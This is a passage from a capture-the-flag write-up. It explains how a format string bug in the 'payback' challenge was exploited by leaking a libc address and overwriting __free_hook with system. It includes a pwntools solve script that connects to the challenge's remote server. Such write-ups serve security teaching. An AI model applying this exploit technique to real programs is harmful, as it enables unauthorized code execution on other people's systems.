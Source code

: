 One of my teammates wrote a wrapper in the time I was attempting to solve Superfast, which employs the [FmtStr](https://docs.pwntools.com/en/stable/fmtstr.html) function in `pwntools` to find the offsets. I didn't know about this library, and this saved *a ton of time* working on this challenge, because I really hate exploiting format string bugs.

The general flow of exploiting a format string vulnerability is to overwrite an address that gives you code execution. Typical targets are the GOT table, but in this case since Full RelRO is enabled the GOT is protected, so we are left with function pointers like `__free_hook` or `__malloc_hook`. In this case, the `__free_hook` is a nice target since the allocated and user controlled `botBuf[id].url` is freed directly with no modifications or protections. Due to ASLR we have to leak the address of where libc is in memory, and leaking involves printing addresses on the stack until we find an address that looks like a libc address (and looking at the debugger to see what the offset is from the real libc base address). 

Once we have that, we make use of the given libc in the challenge to figure out the offsets to functions we might want to call (e.g. `system`) and function pointers we want to overwrite (e.g. `__free_hook`). Using `fmtstr_payload` from `pwntools` instantly gives you the payload needed to perform the necessary short writes with the format string vulnerability, so you don't actually have to re-read the [format string bible](https://cs155.stanford.edu/papers/formatstring-1.2.pdf) to figure out how to do format string again. The final solve script looks like this:

```python
#!/usr/bin/python3
from pwn import *
exe = ELF("./payback")
libc = ELF("./.glibc/libc.so.6")
context.binary = exe
# context.log_level = "debug"

gs = '''
continue
'''

if args['REMOTE']:
    io = remote('206.189.25.173', 30362)
elif args.GDB:
    io = gdb.debug('./payback', gs)
else:
    io = process('./payback')

def fmt_str(payload):
    io.sendline(b'1')
    io.sendline(b'http://urlplaceholder.com/')
    io.sendline(b'1337')
    io.sendline(b'3')
    io.sendline(b'0')
    io.sendafter(b'[*] Enter the reason of deletion: ', payload)
    io.sendline()
    io.recvuntil("Reason: \n")
    result = io.recvline()
    return result

def main():
    data = fmt_str("0x%08lx 0x%08lx").decode('utf-8').strip().split()[0]
    libc_base = int(data, 16) - 0x1ed723
    libc.address = libc_base
    info(f"libc base: {libc_base:02x}")
    info(f"free_hook: {libc.sym.__free_hook:02x}")
    info(f"system addr: {libc.sym.system:02x}")
    
    # write system to free_hook
    payload = fmtstr_payload(8, {libc.sym.__free_hook: libc.sym.system}, write_size='byte')
    fmt_str(payload)

    # pwn
```